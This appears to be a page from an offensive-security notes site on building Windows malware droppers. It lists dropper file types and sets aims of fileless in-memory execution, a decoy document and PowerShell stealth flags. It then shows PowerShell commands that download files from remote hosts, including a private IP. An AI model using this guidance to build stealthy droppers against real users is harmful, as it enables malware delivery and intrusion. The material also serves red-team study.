

repository: gandhi-taha/security · page: initial_access/initial_access_dropper/index.html · generator: mkdocs



A dropper never contains the actual payload. It is only the first stage which downloads the actual payload. For windows it can take many different forms, or written in different languages etc. Here are a few.


|No.    |Dropper type                  |File extension         |
|:------|:----------------------------:|:----------------------|
|       |                              |                       | 
|1      | JScript                      | .js/.jse              |     
|2      | VBScript                     | .vbs/.vbe             | 
|3      | Windows Script File          | .wsf                  |             
|4      | HTML Application             | .hta                  |     
|5      | Compiled HTML Help           | .chm                  |     
|6      | Batch file                   | .bat                  |     
|7      | Shortcut                     | .lnk                  |     
|8      | Office Word/Excel            | .doc/.docm/.xls/...   |         
|9      | Registry file                | .reg                  |         
|10     | Executable                   | .exe                  |         
|11     | Screensaver file             | .scr                  |         
|12     | Program Information File     | .pif                  |         
|13     | Installer Package            | .msi                  |     
|14     | Java Archive                 | .jar                  |     
|15     | Troubleshooting pack cabinet | .diagcab              |         
|


What we want to do here is really easy. We want to download the payload and then execute it. That is all.

However, we have a few requirements.
1. It needs to communicate over HTTPS.
2. It should not write anything to disk (except for the dropper of course).
3. It should download a fake document, and open it.

## Executing in memory (Fileless)

So before we go in to start developing our dropper in different languages we need to look at the different ways to execute code in memory.


### Powershell / WMI / ADODB.Stream

This is probably the most common way. 

There are a few flags that can be used to make the powershell command a bit more stealthy.
https://securityaffairs.co/wordpress/65570/hacking/powershell-attacks.html
https://www.reddit.com/r/PowerShell/comments/8qsndn/sneaky_powershell_trick_run_completely_without_a/



With Powershell there are mainly three ways to download files.

#### Invoke webrequest

```
Invoke-WebRequest


$url = "http://mirror.internode.on.net/pub/test/10meg.test"
$output = "$PSScriptRoot\10meg.test"
$start_time = Get-Date

Invoke-WebRequest -Uri $url -OutFile $output
Write-Output "Time taken: $((Get-Date).Subtract($start_time).Seconds) second(s)"
```


#### System.Net.WebClient
This is a .Net class that you can use straight from powershell.

```
(New-Object System.Net.WebClient).DownloadFile($url, $output)

```


#### Start-BitsTransfer


```
start-bitstransfer -source http://192.168.66.87/apaa.txt -destination test2.txt

```
